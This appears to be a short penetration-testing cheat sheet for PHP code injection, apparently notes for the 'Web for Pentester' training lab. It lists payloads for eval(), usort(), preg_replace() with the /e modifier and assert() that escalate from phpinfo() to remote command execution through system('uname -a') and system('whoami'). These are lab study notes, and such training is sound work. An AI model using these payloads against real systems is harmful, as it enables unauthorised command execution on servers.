 <h2>Code Injection</h2>
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

<h3>Web for Penterster</h3> 
<h3>example 1</h3> 
<b>eval()</b> - evaluates a string as PHP code <br>
<b>payload</b>- " .phpinfo(). "  <br>
<b>payload</b>- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


<h3>example 2</h3> 
<b>usort()</b>- Sort an array by values using a user-defined comparison function<br>
<b>payload</b>-example2.php?order=id,system('whoami') <br>
<b>payload</b>- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


<h3>example 3</h3> 
<b>preg_replace()</b> — Perform a regular expression search and replace<br>
<b>payload</b> - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
<b>payload</b> - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


<h3>example 4</h3> 
<b>assert()</b> - Checks if assertion is FALSE <br>
<b>payload</b> - example4.php?name=hacker'.phpinfo().' <br>
<b>payload</b> - example4.php?name=hacker'.system('uname -a').'
